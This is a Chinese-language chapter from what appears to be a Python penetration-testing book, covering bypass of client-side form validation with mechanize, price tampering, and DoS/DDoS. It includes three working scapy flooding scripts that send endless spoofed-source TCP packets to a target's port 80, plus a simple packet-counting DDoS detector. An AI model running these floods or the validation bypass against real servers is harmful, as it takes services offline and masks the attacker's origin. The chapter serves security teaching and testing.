









# 客户端和 DDoS 攻击

在上一章中，您学习了如何解析 web 页面，以及如何从 HTML 页面收集特定信息。在本章中，我们将介绍以下主题：

*   网页中的验证
*   验证类型
*   验证的渗透测试
*   拒绝服务攻击
*   分布式拒绝服务攻击
*   DDoS 检测

# 引入客户端验证

通常，在 web 浏览器中访问网页时，您会打开表单，填写表单，然后提交表单。在填写表单的过程中，某些字段可能会有限制，例如用户名，它应该是唯一的；密码，应大于 8 个字符，并且这些字段不应为空。为此，使用了两种类型的验证，即客户端验证和服务器端验证。PHP 和 ASP.NET 等语言使用服务器端验证，获取输入参数并将其与服务器数据库匹配。

在客户端验证中，验证在客户端完成。JavaScript 用于客户端验证。在某种程度上，快速的响应和简单的实现使客户端验证受益匪浅。然而，频繁使用客户端验证为攻击者提供了一种简单的攻击方式；服务器端验证比客户端验证更安全。普通用户可以在 web 浏览器上看到正在发生的事情，但黑客可以看到在 web 浏览器之外可以做什么。下图说明了客户端和服务器端验证：


PHP 起着中间层的作用。它将 HTML 页面连接到 SQL Server。

# 使用 Python 篡改客户端参数

最常用的两种方法 POST 和 GET 用于在 HTTP 协议中传递参数。如果网站使用 GET 方法，其传递参数将显示在 URL 中，您可以更改此参数并将其传递给 web 服务器；这与 POST 方法不同，后者的参数不显示在 URL 中。

在本节中，我们将使用带有简单 JavaScript 代码的虚拟网站，以及 POST 方法传递并托管在 Apache web 服务器上的参数。

让我们看看`index.php`代码：

```
<html>
<body background="wel.jpg">

  <h1>Leave your Comments </h1>
  <br>
  <form Name="sample" action="submit.php" onsubmit="return validateForm()" method="POST">

    <table-cellpadding="3" cellspacing="4" border="0">
      <tr>
        <td> <font size= 4><b>Your name:</b></font></td>
        <td><input type="text" name="name" rows="10" cols="50"/></td>
      </tr>
      <br><br>

      <tr valign= "top"> <th scope="row"  <p class="req">
        <b><font size= 4>Comments</font> </b> </p> </th>
        <td> <textarea class="formtext" tabindex="4" name="comment" 
         rows="10" cols="50"></textarea></td>
      </tr>

      <tr>
        <td> <input type="Submit" name="submit" value="Submit" /></td>
      </tr>
    </table>
  </form>
  <br>

  <font size= 4 ><a href="dis.php"> Old comments </a> 
  <SCRIPT LANGUAGE="JavaScript">

    <!-- Hide code from non-js browsers

    function validateForm()
    {
      formObj = document.sample;

      if((formObj.name.value.length<1) || 
       (formObj.name.value=="HACKER"))
       {
        alert("Enter your name");
        return false;
      }
      if(formObj.comment.value.length<1)
      {
        alert("Enter your comment.");
        return false;
      }
    }
    // end hiding -->

  </SCRIPT>
</body>
</html>
```

我希望您能够理解 HTML、JavaScript 和 PHP 代码。前面的代码显示了一个示例表单，该表单包含两个文本提交字段：名称和注释：

```
if((formObj.name.value.length<1) || (formObj.name.value=="HACKER"))
{
alert("Enter your name");
return false;
}
if(formObj.comment.value.length<1)
{
alert("Enter your comment.");
return false;
}
```

前面的代码显示验证。如果名称字段为空或填写为`HACKER`，则会显示一个警报框，如果注释字段为空，则会显示一条警报消息，您可以在其中输入注释，如以下屏幕截图所示：


验证警报框

因此，我们面临的挑战是绕过验证并提交表单。您之前可能已经使用 Burp 套件完成了此操作。现在，我们将使用 Python 实现这一点。

在上一章中，您看到了 BeautifulSoup 工具；现在，我将使用一个名为*mechanize*的 Python 浏览器。mechanize web 浏览器提供了在网页中获取表单的工具，还方便了输入值的提交。通过使用 mechanize，我们将绕过验证，如下代码所示：

```
import mechanize
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
for form in br.forms():
  print form
```

我们所有的代码片段都以`import`语句开头。因此，我们在这里导入`mechanize`模块。下一行创建`mechanize`类的`br`对象。`url = raw_input("Enter URL ")`语句要求用户输入。接下来的五行表示有助于重定向和`robots.txt`处理的浏览器选项。`br.open(url)`语句打开我们提供的 URL。下一条语句在网页中打印表单。现在，让我们检查一下`paratemp.py`程序的输出：


程序输出显示存在两个名称值。第一个是`name`，第二个是`comment`，将传递到动作页面。现在，我们已经收到了参数。让我们看看代码的其余部分：

```
br.select_form(nr=0)
br.form['name'] = 'HACKER'
br.form['comment'] = ''
br.submit()
```

第一行用于选择表单。在我们的网站上，只有一个表格。`br.form['name'] = 'HACKER'`语句填充名称字段中的值`HACKER`，下一行填充空注释，最后一行提交值。

现在，让我们看看双方的结果。代码的输出如下所示：



提交表格

网站的输出如以下屏幕截图所示：



验证旁路

前面的屏幕截图显示它已经成功了。

现在，您必须对如何绕过验证有了一个合理的想法。一般来说，人们认为 POST 方法发送的参数是安全的。然而，在前面的实验中，您已经看到对于内部网络中的普通用户来说是安全的。如果网站仅由内部用户使用，那么客户端验证是一个不错的选择。然而，如果您对电子商务网站使用客户端验证，那么您只是在邀请攻击者利用您的网站进行攻击。在下面的主题中，您将看到客户端验证对业务的一些不良影响。

# 参数篡改对业务的影响

作为一名 pentester，您经常需要分析源代码。如今，电子商务的世界正在迅速发展。考虑一个电子商务网站的例子，如下面的截图所示：



网站示例

前面的截图显示`Nokia C7`的价格为`60`，而`iPhone 3G`的价格为`600`。你不知道这些价格是来自数据库还是写在网页上。以下屏幕截图显示了两款手机的价格：



查看源代码

现在，让我们看看源代码，如以下屏幕截图所示：



查看前面屏幕截图中的矩形框。价格`60`写入网页，但价格`600`取自数据库。如果使用`GET`方法，则可以通过 URL 篡改来更改价格`60`。价格可以由`60`改为`6`。这将严重影响业务。在白盒测试中，客户端向您提供源代码，您可以分析这些代码，但在黑盒测试中，您必须使用攻击来执行测试。如果使用了`POST`方法，您可以使用 Mozilla 插件篡改数据（[https://addons.mozilla.org/en-US/firefox/addon/tamper-data/](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/) 用于参数篡改。您必须手动完成，因此不需要使用 Python 编程。

# 介绍 DoS 和 DDoS

在本节中，我们将讨论一种最致命的攻击，称为拒绝服务攻击。此攻击的目的是消耗机器或网络资源，使其无法供目标用户使用。通常，攻击者在每次其他攻击失败时使用此攻击。这种攻击可以在数据链路、网络或应用层进行。通常，web 服务器是黑客的目标。在 DoS 攻击中，攻击者向 web 服务器发送大量请求，目的是消耗网络带宽和机器内存。在**分布式拒绝服务**（**DDoS**攻击中，攻击者从不同 IP 发送大量请求。为了实施 DDoS 攻击，攻击者可以使用特洛伊木马或 IP 欺骗。在本节中，我们将进行各种实验以完成我们的报告。

# 单 IP，单端口

在这种攻击中，我们使用单个 IP（可能是伪造的）和单个源端口号向 web 服务器发送大量数据包。这是一种非常低级的 DoS 攻击，将测试 web 服务器的请求处理能力。

以下是`sisp.py`的代码：

```
from scapy.all import *
src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")
srcport = int(raw_input("Enter the Source Port "))
i=1
while True: 
  IP1 = IP(src=src, dst=target)
  TCP1 = TCP(sport=srcport, dport=80)
  pkt = IP1 / TCP1
  send(pkt,inter= .001)
  print "packet sent ", i
  i=i+1
```

我使用 scapy 编写了这段代码，希望您熟悉这段代码。前面的代码要求三件事：源 IP 地址、目标 IP 地址和源端口地址。

让我们检查攻击者机器上的输出：



单端口单 IP

我使用了一个伪造的 IP 来隐藏我的身份。您必须发送大量数据包来检查 web 服务器的行为。在攻击过程中，尝试打开托管在 web 服务器上的网站。不管它是否有效，把你的发现写在报告里。

让我们检查服务器端的输出：



服务器上的 Wireshark 输出

此输出显示我们的数据包已成功发送到服务器。用不同的序列号重复此程序。

# 单 IP，多端口

现在，在这次攻击中，我们使用一个 IP 地址，但使用多个端口。

在这里，我已经编写了`simp.py`程序的代码：

```
from scapy.all import *

src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")

i=1
while True: 
  for srcport in range(1,65535): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    i=i+1
```

我使用`for`循环来连接端口。让我们检查一下攻击者的输出：


来自攻击者机器的数据包

前面的屏幕截图显示数据包已成功发送。现在，检查目标机器上的输出：



目标计算机中出现的数据包

在前面的屏幕截图中，矩形框显示端口号。我将让您使用一个端口创建多个 IP。

# 多 IP、多端口

在本节中，我们将讨论具有多个端口地址的多 IP。在这种攻击中，我们使用不同的 IP 将数据包发送到目标。多个 IP 表示欺骗 IP。以下程序将从伪造的 IP 发送大量数据包：

```
import random
from scapy.all import *
target = raw_input("Enter the Target IP ")

i=1
while True: 
  a = str(random.randint(1,254))
  b = str(random.randint(1,254))
  c = str(random.randint(1,254))
  d = str(random.randint(1,254))
  dot = "."
  src = a+dot+b+dot+c+dot+d
  print src
  st = random.randint(1,1000)
  en = random.randint(1000,65535)
  loop_break = 0
  for srcport in range(st,en): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    loop_break = loop_break+1
    i=i+1
    if loop_break ==50 :
      break
```

在前面的代码中，我们使用了`a`、`b`、`c`和`d`变量来存储四个随机字符串，范围从`1`到`254`。`src`变量存储随机 IP 地址。在这里，我们使用了`loop_break`变量在`50`数据包之后中断`for`循环。这意味着 50 个数据包来自一个 IP，而其余代码与前一个相同。

让我们检查一下`mimp.py`程序的输出：


具有多个端口的多 IP

在前面的屏幕截图中，您可以看到在数据包 50 之后，IP 地址发生了变化。

让我们检查目标机器上的输出：



Wireshark 上目标机器的输出

使用多台机器并执行此代码。在前面的屏幕截图中，您可以看到机器回复到源 IP。这种类型的攻击很难检测，因为很难区分数据包是来自有效主机还是来自伪造主机。

# DDoS 检测

当我攻读工程硕士学位时，我和我的朋友正在研究 DDoS 攻击。这是一种非常严重的攻击，很难检测，几乎不可能猜测流量是来自假主机还是真实主机。在 DoS 攻击中，流量仅来自一个来源，因此我们可以阻止该特定主机。基于某些假设，我们可以制定规则来检测 DDoS 攻击。如果 web 服务器仅运行包含端口 80 的流量，则应该允许它。现在，让我们看一段检测 DDoS 攻击的非常简单的代码。程序名称为`DDOS_detect1.py`：

```
import socket
import struct
from datetime import datetime
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 8)
dict = {}
file_txt = open("dos.txt",'a')
file_txt.writelines("**********")
t1= str(datetime.now())
file_txt.writelines(t1)
file_txt.writelines("**********")
file_txt.writelines("n")
print "Detection Start ......."
D_val =10
D_val1 = D_val+10
while True:

  pkt  = s.recvfrom(2048)
  ipheader = pkt[0][14:34]
  ip_hdr = struct.unpack("!8sB3s4s4s",ipheader)
  IP = socket.inet_ntoa(ip_hdr[3])
  print "Source IP", IP
  if dict.has_key(IP):
    dict[IP]=dict[IP]+1
    print dict[IP]
    if(dict[IP]>D_val) and (dict[IP]<D_val1) :

      line = "DDOS Detected "
      file_txt.writelines(line)
      file_txt.writelines(IP)
      file_txt.writelines("n")

  else:
  dict[IP]=1
```

在[第三章](3.html)*嗅探和渗透测试*中，您学习了嗅探。在前面的代码中，我们使用嗅探器获取数据包的源 IP 地址。`file_txt = open("dos.txt",'a')`语句以追加模式打开一个文件，该`dos.txt`文件作为日志文件用于检测 DDoS 攻击。每当程序运行时，`file_txt.writelines(t1)`语句都会写入当前时间。`D_val =10`变量是一个仅用于演示程序的假设。这一假设是通过查看特定 IP 的点击统计数据得出的。考虑一个教程网站的案例。来自学院和学校知识产权的点击率会更高。如果大量请求来自一个新的 IP，那么可能是 DoS。如果来自一个 IP 的传入数据包计数超过`D_val`变量，则认为该 IP 应对 DDoS 攻击负责。`D_val1`变量将稍后在代码中使用，以避免冗余。我希望您在`if dict.has_key(IP):`声明之前熟悉代码。此语句将检查字典中是否存在密钥（IP 地址）。如果`dict`中存在密钥，`dict[IP]=dict[IP]+1`语句将`dict[IP]`值增加 1，这意味着`dict[IP]`包含来自特定 IP 的数据包计数。`if(dict[IP]>D_val)`和`(dict[IP]<D_val1)`：语句是在`dos.txt`文件中检测和写入结果的标准；`if(dict[IP]>D_val)`检测传入数据包的计数是否超过`D_val`值。如果超过，后续语句在得到新包后将 IP 写入`dos.txt`。为了避免冗余，使用了`(dict[IP]<D_val1)`语句。接下来的语句将把结果写在`dos.txt`文件中。

在服务器上运行程序，并在攻击者的机器上运行`mimp.py`。

下面的屏幕截图显示了`dos.txt`文件。看那个文件。正如我们前面提到的`D_val1 = D_val+10`，它九次写入一个 IP。您可以更改`D_val`值以设置特定 IP 发出的请求数。这些取决于网站的旧统计数据。我希望前面的代码对研究有用：


检测 DDoS 攻击

如果您是一名安全研究员，前面的程序应该对您有用。您可以修改代码，以便只允许包含端口 80 的数据包。

# 总结

在本章中，我们学习了客户端验证以及如何绕过客户端验证。我们还了解了在哪些情况下客户端验证是一个不错的选择。我们已经介绍了如何使用 Python 填充表单并将参数发送到使用 GET 方法的位置。作为渗透测试人员，您应该知道参数篡改如何影响业务。本章介绍了四种类型的拒绝服务攻击。单个 IP 攻击属于 DoS 攻击，而多个 IP 攻击属于 DDoS 攻击。本节不仅对戊酯有帮助，而且对研究人员也有帮助。利用 Python DDoS 检测脚本，您可以修改代码并创建更大的代码，从而触发控制或减轻服务器上 DDoS 攻击的操作。

在下一章中，您将学习 SQL 注入和**跨站点脚本**攻击（**XSS**）。您将学习如何利用 Python 执行 SQL 注入测试。您还将学习如何使用 Python 脚本自动执行 XSS 攻击。